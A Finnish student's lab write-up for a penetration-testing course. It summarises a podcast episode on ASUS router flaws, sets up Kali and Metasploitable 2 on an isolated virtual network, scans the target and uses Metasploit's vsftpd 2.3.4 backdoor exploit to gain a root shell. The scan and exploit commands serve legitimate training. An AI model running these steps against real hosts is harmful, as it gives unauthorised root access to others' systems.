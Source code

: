 # h1 OmaLabra 

## x)

[Darknet Diaries EP5:ASUSGATE](https://darknetdiaries.com/episode/5/)

- asus reitittimessä todella vakavia turvallisuusongelmia

- helpot default salasanat
- Ftp serverillä oli portti 21 auki joten kuka vaan oikealla ip osoitteella pääsisi sitä kautta käsiksi
- Samba, mahdollisti tiedostoihin käsiksi pääsemisen helposti kenelle vaan.
- vpn mahdollisti sen että muiden ongelmien avulla pääsee käsiksi koko talon verkkoon

- sata tuhatta samanlaista reititintä helposti löydettävissä, ongelma ei julkisessa tiedossa

- asus vastahakoinen selvittämään ongelmia kun informoitu yksityisesti

- kun ongelmia ei korjattu aluksi Kyle kertoi julkisesti osan haavoittuvuudesta, ja myöhemmin kokonaan

- nykyään helpompi ilmoittaa haavoittuvuuksista ja viranomaiset auttavat tilanteessa jos muuten ei muutosta tapahdu

- asus korjasi kaikki ongelmat lopulta, mutta tuomittiin silti rikkoneeksi lakia koska ei korjannut ja ilmoittanut ongelmista.
- asus on vuoteen 2036 asti saadut määräykset josta jokaisesta rikkeestä 16000$ sakko

"They must clearly notify their customers publically when a security update is available.  They must conduct security audits on their products.  This includes penetration testing, employee training, code reviews, risk assessments, and more."


2.4 7:15 

Virtualbox Host:  
- OS: Debian GNU/Linux 11 (bullseye) x86_64 
- Host: Aspire A515-55G V1.08 

## a, b ja c
a) Asenna Kali virtuaalikoneeseen
b) Asenna Metasploitable 2 virtuaalikoneeseen
c) Tee koneille virtuaaliverkko, jossa  
    - Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
    - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa

latasin [metasploitable](https://sourceforge.net/projects/metasploitable/) 2 ja [kali](https://www.kali.org/get-kali/#kali-installer-images) linuxin 

Virtualboxissa uusi virtuaalikone- nimi kali levykuvaksi juuri ladattu kali 2023.1 

![](TTPictures/T1a.png)

laitoin kalin asentumaan taustalle ja jatkoin metasploitablen asennusta.

Type: Linux
Version: Other Linux(64-bit)

Hard disk - Use an existing virtual hard disk file tähän valitsin aiemmin ladatun metasploitable tiedoston

![](TTPictures/T1b.png)

file - tools - host only network manager
tein uuden host only network, laitoin sen metasploitable nat adapterin sijaan ja kaliin lisäsin toiseksi mahdollisuudeksi joten sillä pääsee tarvittaessa internettiin.

käynnistin metasploitablen, kirjauduin sisään msfadmin käyttäjälle ja ping komentoa käyttämällä tarkistin, että kone ei ollut netissä.
sen jälkeen ifconfig komennolla tarkistin laitteen ip osoitteen.

![](TTPictures/T1d.png)

kun kali oli asentunut tein siitä virtualboxissa snapshotin joten toivottavasti voin välttää uudelleenasennuksen ongelmatilanteissa.

tarkistin kalissa network adapterien toimivuuden ping komennolla.    
host only networkissa komento `ping google.com` antaa:
	ping: google.com: Temporary failure in name resolution
	
ja nat:
	64 bytes from hem09s02-in-f14.1e100.net (216.58.209.174): icmp_seq=7 ttl=63 time=5.94 ms

pingasin metasploitable ip osoitetta kalista jolla sain varmistuksen että host only network toimii niin kuin pitää.

	ping 192.168.56.102
	PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.

käynnistin msfdb - metasploit database

	sudo msfdb run

	db_status
	[*] Connected to msf. Connection type: postgresql.
	
tein uuden työtilan nimellä metasploitable-2 
	
	workspace -a metasploitable-2
	
*en ollut vaihtanut työtilaa joten skannauksen tulokset löytyivätkin default tilasta. 
	

aloitin tutkimalla maalikoneen aukinaisia portteja, skannasin ne komennolla db_nmap -A 192.168.56.102, ne tallentuivat työtilaan ja avasin ne komennolla `services`

	
	host            port  proto  name         state  info
	----            ----  -----  ----         -----  ----
	192.168.56.102  21    tcp    ftp          open   vsftpd 2.3.4
	192.168.56.102  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
	192.168.56.102  23    tcp    telnet       open   Linux telnetd
	192.168.56.102  25    tcp    smtp         open   Postfix smtpd
	192.168.56.102  53    tcp    domain       open   ISC BIND 9.4.2
	192.168.56.102  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
	192.168.56.102  111   tcp    rpcbind      open   2 RPC #100000
	192.168.56.102  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
	192.168.56.102  445   tcp    netbios-ssn  open   Samba smbd 3.0.20-Debian workgroup: WORKGROUP
	192.168.56.102  512   tcp    exec         open   netkit-rsh rexecd
	192.168.56.102  513   tcp    login        open   OpenBSD or Solaris rlogind
	192.168.56.102  514   tcp    shell        open   Netkit rshd
	192.168.56.102  1099  tcp    java-rmi     open   GNU Classpath grmiregistry
	192.168.56.102  1524  tcp    bindshell    open   Metasploitable root shell
	192.168.56.102  2049  tcp    nfs          open   2-4 RPC #100003
	192.168.56.102  2121  tcp    ftp          open   ProFTPD 1.3.1
	192.168.56.102  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5
	192.168.56.102  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7
	192.168.56.102  5900  tcp    vnc          open   VNC protocol 3.3
	192.168.56.102  6000  tcp    x11          open   access denied
	192.168.56.102  6667  tcp    irc          open   UnrealIRCd
	192.168.56.102  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3
	192.168.56.102  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1
	
tiesin että vsftpd 2.3.4 sisältää backdoor exploitin koska kävimme sen läpi tunnilla, etsin siitä tiedot komennolla `search vsftpd 2.3.4`

![](TTPictures/T1f2.png)  

valitsin exploitin käytettäväksi komennolla `use 0`

tutkin exploittia komennolla `info`

![](TTPictures/T1f3.png)
	
asetin RHOST muuttujan global arvon maalikoneen ip osoitteeksi komennolla `setg RHOSTS 192.168.56.102`  

ajoin exploitin komennolla `run`

![](TTPictures/T1f4.png)

sain maalikoneeseen terminaalin auki root oikeuksilla.
